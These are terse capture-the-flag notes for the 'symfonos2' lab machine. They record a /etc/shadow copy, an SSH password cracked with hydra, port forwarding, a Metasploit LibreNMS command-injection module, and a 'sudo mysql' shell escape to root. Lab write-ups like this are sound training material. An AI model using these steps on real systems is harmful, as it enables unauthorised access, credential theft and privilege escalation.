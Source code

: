 # found in log.txt - 
------------------
```
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
root@symfonos2:~# cat /etc/samba/smb.conf

Set the user and group under which the server will run.
User                            aeolus
Group                           aeolus

We want clients to be able to login with "anonymous" as well as "ftp"
UserAlias                     anonymous ftp
```

# found users -
--------------
cronos
aeolus


# found password for `aeolus` for ssh using `hydra` and `rockyou.txt`
aeolus:sergioteamo

logged in as aeolus !

# privesc -
------------
3 users in machine - 
- root
- cronus
- aeolus

# ssh port-forwarding - 
`ssh -L 8080:localhost:8080 aeolus@10.10.10.17`

# horizontal priv esc (aeolus to cronus)
used metasploit - `search librenms`
exploit - `linux/http/librenms_addhost_cmd_inject`


# priv esc to root - 
mysql program exploitation from `gtfobins` - `sudo mysql -e '\! /bin/sh'`